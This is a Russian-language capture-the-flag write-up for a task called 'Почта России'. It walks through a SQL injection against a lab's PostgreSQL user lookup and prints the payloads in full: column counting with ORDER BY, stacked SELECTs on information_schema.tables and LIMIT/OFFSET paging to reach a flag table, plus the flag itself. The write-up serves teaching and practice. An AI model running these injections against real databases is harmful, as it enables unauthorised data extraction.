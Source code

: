 # Почта России

## Условие

> Кажется, у кого-то база пользователей слита.. А нет ли там чего-то ещё, кроме данных пользователей?

## Решение таска

Похоже на то, что используется база данных. При проверке понимаем, что наш запрос не экранируется вообще никак. И действительно,
в базу данных отправляется запрос

```
    SELECT * FROM users WHERE id = {{input_field}}
```

Также интересен тот факт, что если вызвать два запроса `SELECT` через запятую, будет применен результат второго запроса.

Узнаем число столбцов в таблице:

```
    1 ORDER BY 1 // ОК
    1 ORDER BY 2 // OK
    1 ORDER BY 3 // OK
    1 ORDER BY 4 // Fail, 3 столбца
```

Перебираем фичи всех БД для получения списка таблиц, узнаем, что это *PostgreSQL*, а значит список таблиц получается
командой:

```
    1; SELECT 1, 1, table_name FROM information_schema.tables
```

Чтобы получать разные таблицы, в конец запроса добавляем `LIMIT 1 OFFSET x`. Увеличивая `x`, получаем таблицу `flag`.

Снова узнаем число столбцов:

```
    1; SELECT 1, 1, * FROM flag ORDER BY 1 // OK
    1; SELECT 1, 1, * FROM flag ORDER BY 2 // Error, 1 столбец
```

Кстати, заметим, что при первом запросе мы получили флаг: *UPML_INJ5271*

